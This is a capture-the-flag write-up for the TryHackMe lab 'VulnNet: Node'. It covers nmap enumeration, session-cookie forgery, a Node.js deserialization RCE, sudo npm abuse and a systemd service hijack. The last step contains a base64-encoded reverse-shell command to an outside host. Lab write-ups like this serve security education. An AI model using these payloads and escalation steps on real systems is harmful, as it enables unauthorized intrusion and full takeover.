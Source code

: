 ```yaml
---
title: "VulnNet: Node"
date: 2025-03-13
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF VulnNet Node
categories: [TryHackMe, Easy]
tags: [linux, nodejs, rce]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>VulnNet: Node</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/vulnnetnode">https://tryhackme.com/room/vulnnetnode</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge VulnNet: Node.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- -Pn 10.10.177.255
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 06:22 EDT
  Nmap scan report for 10.10.177.255
  Host is up (0.042s latency).
  Not shown: 65534 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 27.52 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 8080 -Pn 10.10.177.255
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 06:23 EDT
  Nmap scan report for 10.10.177.255
  Host is up (0.038s latency).

  PORT     STATE SERVICE VERSION
  8080/tcp open  http    Node.js Express framework
  |_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 20.75 seconds
```

From here I proceeded with port 8080.

## Port 8080 Analysis

While analyzing the source code of the website, I noticed that the login mechanism wasn't functioning. The interesting part I found was the base64-encoded session cookie. I modified it to `admin` and the website changed, as it can be seen in the screenshots below.
```bash
$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
$ echo '{"username":"Admin","isGuest":false,"encoding": "utf-8"}' | base64              
eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNHdWVzdCI6ZmFsc2UsImVuY29kaW5nIjogInV0Zi04In0K
```

![Guest](/assets/img/tryhackme/Vulnnetnode/thm_vulnnetnode_1.jpg)

![Admin](/assets/img/tryhackme/Vulnnetnode/thm_vulnnetnode_2.jpg)

The website processes the content of the session cookie. I attempted to exploit this using a Node.js deserialization Remote Code Execution vulnerability. First, I created Node.js shell code using the script from this <a href="https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py">GitHub</a>. I wrote a small JavaScript script and pasted the output from `nodejsshell.py` into it:
```JavaScript
var z = {
	rce: function(){ << shellcode here >> }
}

var serialize = require('node-serialize');
var serialized = serialize.serialize(y);
console.log(serialized)
```

After executing it using `node serialize.js`, I generated the serialized shell code. It's important to add `()` at the end of the string like this:
```bash
...10))}()"}
        ^^
```

After encoding it using `Base64`, the shell code was ready to be inserted into the request. When the shell code was executed on the Node.js server, I successfully received the reverse shell:
```bash
$ nc -lvnp 9001 
listening on [any] 9001 ...
connect to [attackerip] from (UNKNOWN) [10.10.240.14] 43352
Connected!
whoami
  www
id
  uid=1001(www) gid=1001(www) groups=1001(www)
```

## Privilege Escalation serv-manage

I needed to escalate my privileges to user `serv-manage`, because user `www` didn't have the permission to retrieve the user flag. I started by executing `sudo -l`, which gave me an interesting output:
```bash
www@vulnnet-node:~/VulnNet-Node$ sudo -l
#Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

After searching on <a href="https://gtfobins.github.io/gtfobins/npm/">GTFObins</a>, I found a way to exploit this. First, I needed a directory with write permissions:
```bash
www@vulnnet-node:~/VulnNet-Node$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  [...]
  /var/tmp/
  [...]
```

After executing GTFObins commands, I was able to retrieve the user flag:
```bash
www@vulnnet-node:~/VulnNet-Node$ cd /var/tmp/
www@vulnnet-node:/var/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
www@vulnnet-node:/var/tmp$ sudo -u serv-manage /usr/bin/npm -C /var/tmp/ --unsafe-perm i
$ id
  uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
serv-manage@vulnnet-node:~$ cat user.txt 
  THM{0[removed]1}
```

## Privilege Escalation root

I proceeded with `sudo -l` and got the following output:
```bash
serv-manage@vulnnet-node:~$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

First, I analyzed the `vulnnet-auto.timer`, which I had permission to start. This called the `vulnnet-job.service`, which executed whatever was specified in `ExecStart`. 
```bash
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer 
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-job.service 
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

I had permission to modify the `vulnnet-job.service` and inserted a reverse shell command. The Penelope default payloads worked very well for me:  
```bash
serv-manage@vulnnet-node:~$ nano /etc/systemd/system/vulnnet-job.service 
ExecStart=/bin/bash -c "echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvODk5OSAwPiYxICYK|base64 -d|bash"
```

After starting the `vulnnet-auto.timer` service, I received the reverse shell and was able to retrieve the root flag:
```bash
serv-manage@vulnnet-node:~$ sudo -u root /bin/systemctl start vulnnet-auto.timer

root@vulnnet-node:/# cd /root
root@vulnnet-node:/root# cat root.txt 
  THM{a[removed]9}
```

solved! :)